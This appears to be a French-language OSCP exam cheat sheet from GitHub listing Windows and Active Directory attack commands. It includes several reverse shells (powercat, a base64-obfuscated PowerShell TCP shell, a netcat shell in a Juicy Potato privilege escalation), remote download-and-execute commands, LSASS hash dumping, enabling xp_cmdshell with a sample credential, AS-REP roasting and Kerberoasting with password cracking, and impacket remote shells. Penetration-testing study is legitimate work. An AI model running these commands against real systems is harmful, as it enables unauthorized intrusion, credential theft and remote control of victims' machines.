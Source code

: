 <img src="https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/4f64d883-9cac-4bc5-b1a5-bcb1f488d072" height="180">

## Commande windows:
**Télécharger puis exécuter un fichier:** powershell "IEX (New-Object Net.WebClient).DownloadString('http://[IP]/shell2.ps1')"  
**Télécharger un fichier:** wget http://[IP]/[fichier] -outfile [fichier]  
Ou alors: (new-object System.Net.WebClient).DownloadFile('http://[IP]/shell.exe','C:\Users\Public\shell.exe')  
**Reverse shell via powercat:** IEX(New-Object System.Net.WebClient).DownloadString('http://[IP]/powercat.ps1');powercat -c [IP] -p 4444 -e powershell  
**Historique Powershell:** type C:\Users\[user]\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt  
**Information systeme:** systeminfo  
**Lister les infos d'un user:** net user [user]  
**Lister quel groupe / user ont accès au fichier:** icacls [fichier]  
**Lister process:** Get-Process | ForEach-Object {$_.Path}  
**Trouver des fichiers (équivalent find):** Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

## Partage Samba:
**Lister tout les partages en anonymous:** smbclient -N -L \\\\[IP]\\  
**Ou:** crackmapexec smb <IP> -u '[user]' -p '[pass]' --shares #Null user  
**avec un compte:** smbclient -L //[IP]/ -U [user] --password=[pass]  
**Lister tout les partages et les droits associés:** smbmap -H [ip]  
**Aller dans un partage:** smbclient -N \\\\[IP]\\[nom_du_partage]  
**Énumération  des services windows:** enum4liux [IP CIBLE]  

## Connexion a Windows Management (port 5985 par défaut) :
•	evil-winrm -i [IP] -u [USER]  

## Commande powershell offusquée:
pwsh  
$Text = '$client = New-Object System.Net.Sockets.TCPClient("[IP]",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'  
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)  
$EncodedText =[Convert]::ToBase64String($Bytes)  
$EncodedText  
exit  

## Executer des commandes via MSQL :  
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth  
EXECUTE sp_configure 'show advanced options', 1;  
RECONFIGURE;  
EXECUTE sp_configure 'xp_cmdshell', 1;  
RECONFIGURE;  
EXECUTE xp_cmdshell 'whoami';  

## Utilisation du service RPC :
**Connexion au serveur:** rpcclient -U "[USER]" [IP]  
**Lister les users:** enumdomusers  
**Informations sur un user:** queryuser [user]  
**Transformer le format "enumdomusers" en une liste de user:** cat user.txt | tr -d '[]' | cut -d ' ' -f1 | cut -c6-  
**Lister les groupes:** enumdomgroups  
**Lister les groupe du domaine:** enumalsgroups domain  
**Lister les groupe par défault:** enumalsgroups builtin  
**Lister les SID présent dans un groupe :** queryaliasmem domain [RID]  
**Trouver le nom d'un utilisateur via son SID:** lookupsids [SID]  
**lister les partages NFS:** nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount [IP]  

## Utilisation de impacket :
**shell via un partage samba :** psexec.py [user]@[IP]  
**shell via un partage samba en écriture:** smbexec.py [user]@[IP]  
**shell via Windows Management Instrumentation:** wmiexec.py [user]@[IP]  
**commande via le Planificateur de tâches:** atexec.py [user]@[IP] [commande]  
**connexion à MSQL:**  impacket-mssqlclient [user]@[IP] -windows-auth  

## Bloodhound-python :
sudo neo4j start --> démare neo4j  
bloodhound --no-sandbox --> ouvre bloodhound  
bloodhound-python -d [domain] -u [user] -p [password] -gc [name.domain] -c all -ns [IP] --> récupère les fichiers  
Find Principles with DCSync Rights. --> propose un schéma avec les objets principaux  
Shortest Paths to High value Targets --> propose un schéma avec plus de détail  

## Post énumération (script) :
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe

## Reverse shell :
powershell iex(new-object net.webclient).downloadstring('http://[IP]/shell.ps1')  
Télécharger shell.ps1  

## Récupérer les hash du processus LSASS:
crackmapexec smb 192.168.1.105 -u '[user]' -p '[password]' --lsa

## Attaque sur Kerberos:
### ASREPRoast:
ASREPRoast est une technique qui permet de récupérer le mot de passe Kerberos d'un utilisateur en brutforcant son TGT lorsque que la pré-authentification est désactivé  
récupération du hash d'un compte:  
GetNPUsers.py [domaine]/[user] -request -no-pass -dc-ip [IP]  
Liste des users  
GetNPUsers.py [domaine]/ -dc-ip [IP] -request  
récupération d'un hash avec une wordlist de user:  
GetNPUsers.py [domaine]/ -usersfile [wordlist user] -request -no-pass -dc-ip [IP]  
Bruteforce du hash:  
john [hash file] -wordlist=rockyou.txt  
### Kerberoasting:
Kerberoasting est une technique pour récupérer le mot de passe d'un compte de service en bruteforcant le TGS fournis pour ce service  
récupération du hash:  
GetUserSPNs.py -request -dc-ip [ip] [FQDN]/[user]  
Bruteforce du hash:  
john [hash file] -wordlist=rockyou.txt  

### Juicy Potato:
Dans sa configuration par défaut, Microsoft Windows Serveur a une vulnérabilité critique qui peut permettre l'élévation de privilèges.  
Cette vulnérabilité s'appelle Juicy Potato.  
Les versions de Windows Serveur suivantes sont affectées :  
•	Windows Serveur 2008 R2  
•	Windows Serveur 2012  
•	Windows Serveur 2012 R2  
•	Windows Serveur 2016  
Méthode :  
Uploader le .exe : dowload  
créer un .bat reverse shell:  
echo START C:\inetpub\wwwroot\wordpress\wp-content\nc.exe 10.10.14.69 1111 -e cmd.exe > reverse_shell.bat  
Puis l'exécuter avec Juicy Potato  
PS.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\reverse_shell.bat -l 1337  
